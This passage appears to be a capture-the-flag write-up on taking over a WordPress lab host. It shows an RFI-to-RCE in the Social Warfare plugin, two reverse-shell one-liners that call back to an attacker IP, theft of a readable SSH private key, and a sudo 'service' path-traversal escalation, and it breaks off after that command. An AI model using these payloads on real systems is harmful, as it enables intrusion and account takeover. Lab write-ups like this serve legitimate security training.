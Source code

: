 WPScan was also run given the presence of the wordpress site. This revealed the following findings &rarr;

- Plugin Social Warfare 3.5.0 (out of date)
- Plugin Simple Cart Solution 0.2.0 (out of date)
- Theme twentynineteen 1.6 (out of date)
- Wordpress version 5.4.2
- Enabled WP-Cron at /wordpress/wp-cron.php
- Directory listing at /wordpress/wp-content/uploads/
- XMLRPC enabled at /xmlrpc.php

### Exploitation

#### RFI and RCE

With all the information above, the first searchsploit result is that of an RCE in Social Warfare versions < 3.5.3. Looking at the exploit, it needs a payload url to know the payload (an RFI). This will be included in `/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=<RFI_URL>`.

#### Reverse Shell

Visiting this page would give the result of the command in the payload url. The payload must be of the form &rarr; `<pre>system('whoami')</pre>`. Checking the existence of netcat and bash, a new payload can be used for a reverse shell &rarr; `nc -e /bin/bash 192.168.49.244 3002`. This didn't work, therefore, used the usual bash payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.244 3002 >/tmp/f`. This grants the shell as `www-data` user.

### Privilege Escalation

#### User 1

Looking at `/etc/passwd`, the users of interest are `root`, `max` and `steven`. The home directory of both `max` and `steven` are readable by `www-data`. The user flag is in `max`'s home directory. The webroot also contains a base32 encoded string in a file `mybackup.txt` &rarr; `JEQGQYLWMUQHI3ZANNSWK4BAORUGS4ZAOBQXG43XN5ZGIIDTN5WWK53IMVZGKIDTMFTGK3DZEBRGKY3BOVZWKICJEBRWC3RHOQQHEZLNMVWWEZLSEBUXIORAN5YGK3TTMVZWC3LF`.

This decodes to `I have to keep this password somewhere safely because I can't remember it: opensesame`. Therefore, this password is attempted on ssh for `max` and `steven`. However, this did not work.

The home directory of `max` also has a `.ssh` directory, which contains the private key of `max`. This is readable by `www-data` and is thus used to ssh into the server as `max`, which grants the shell and thus the user flag as well.

#### User 2

Checked the ability of `max` to run `sudo` using `sudo -l`. This allowed running `/usr/sbin/service` as `steven` without a password. The `service` command looks for services in a specific directory and launches them. It can therefore be tricked by prepending `../../../../` to whichever command needs to be executed. Therefore running &rarr;

```
sudo -u steven /usr/sbin/service ../../../../bin/bash
```
